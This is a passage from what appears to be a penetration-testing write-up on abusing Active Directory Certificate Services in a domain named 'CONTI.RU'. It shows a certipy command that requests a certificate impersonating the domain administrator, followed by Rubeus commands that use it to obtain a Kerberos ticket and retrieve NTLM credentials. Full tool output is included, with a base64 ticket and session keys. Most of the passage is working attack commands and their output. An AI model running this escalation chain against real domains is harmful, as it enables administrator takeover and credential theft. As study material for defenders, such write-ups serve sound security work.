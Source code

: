 With this information, we can generate PFX for any users, so we choose the built-in domain administrator: `АДМИНИСТРАТОР@CONTI.RU`:

```bash
$ certipy req -hashes "00000000000000000000000000000000:7a0f1f2a2b2a749312b97777b61cd6a5" 'CONTI.RU/Дарья@10.0.20.11' -ca 'CONTI-DC1-CA' -template 'UserAfterLeak' -alt 'АДМИНИСТРАТОР@CONTI.RU'
Certipy v2.0.9 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 21
[*] Got certificate with UPN 'АДМИНИСТРАТОР@CONTI.RU'
[*] Saved certificate and private key to 'администратор.pfx'
```

Fire Rubeus to get the user NTLM hash:
```
PS C:\Users\user\Downloads> ./Rubeus.exe asktgt /user:????????????? /certificate:?????????????.pfx /domain:conti.ru /dc:10.0.20.11 /createnetonly:C:\Windows\System32\cmd.exe  /getcredentials
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/
  v2.0.2
[*] Action: Ask TGT
[*] Showing process : False
[*] Username        : 8C6NPBIX
[*] Domain          : T78KN4RS
[*] Password        : KTK21ESA
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 5128
[+] LUID            : 0x343283
[*] Using PKINIT with etype rc4_hmac and subject: CN=?????
[*] Building AS-REQ (w/ PKINIT preauth) for: 'conti.ru\?????????????'
[*] Target LUID : 3420803
[*] Using domain controller: 10.0.20.11:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
      doIGTjCCBkqgAwIBBaEDAgEWooIFXTCCBVlhggVVMIIFUaADAgEFoQobCENPTlRJLlJVoh0wG6ADAgEC
      oRQwEhsGa3JidGd0Gwhjb250aS5ydaOCBR0wggUZoAMCARKhAwIBAqKCBQsEggUHRzsczbSM/Q4KLi0/
      3EGc3dTPdCJkND8ThMqGyvrQ9qQTLVNcCMqvs+hqIwxkrR7piDwJYHknzF25WtLWdcpErbsLOzze1lKK
      [...]
      LfNiidKACxOqykFrOkoURKEKGwhDT05USS5SVaInMCWgAwIBAaEeMBwbGtCQ0JTQnNCY0J3QmNCh0KLQ
      oNCQ0KLQntCgowcDBQBA4QAApREYDzIwMjIwNDAyMDIwNjQ4WqYRGA8yMDIyMDQwMjEyMDY0OFqnERgP
      MjAyMjA0MDkwMjA2NDhaqAobCENPTlRJLlJVqR0wG6ADAgECoRQwEhsGa3JidGd0Gwhjb250aS5ydQ==
[*] Target LUID: 0x343283
[+] Ticket successfully imported!
  ServiceName              :  krbtgt/conti.ru
  ServiceRealm             :  CONTI.RU
  UserName                 :  ?????????????
  UserRealm                :  CONTI.RU
  StartTime                :  02/04/2022 02:06:48
  EndTime                  :  02/04/2022 12:06:48
  RenewTill                :  09/04/2022 02:06:48
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  LfNiidKACxOqykFrOkoURA==
  ASREP (key)              :  25975C2EA613F124361E4B6BD72D644B
[*] Getting credentials using U2U
  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
```